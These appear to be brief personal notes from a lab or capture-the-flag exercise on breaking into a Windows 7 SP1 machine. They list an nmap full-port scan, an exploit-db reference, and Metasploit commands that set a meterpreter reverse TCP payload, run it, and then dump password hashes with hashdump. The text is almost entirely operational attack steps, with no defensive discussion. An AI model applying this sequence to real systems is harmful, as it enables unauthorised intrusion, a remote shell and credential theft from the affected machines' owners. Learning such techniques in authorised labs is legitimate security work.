

1)nmap for all ports
#nmap -T4 <TargetIP> -p- -A

google:Windows 7 Ultimate 7601 Service Pack 1 exploit
https://www.exploit-db.com/exploits/42315
#msfconsole

scan for version:
#use 3(in this case)
#options


#use 0
#options
#set rhost <victimIP>
#options
#check

#set payload windows/x64/meterpreter_reverse_tcp
#run
aaaaaaannddddddd we are in xD
#hashdump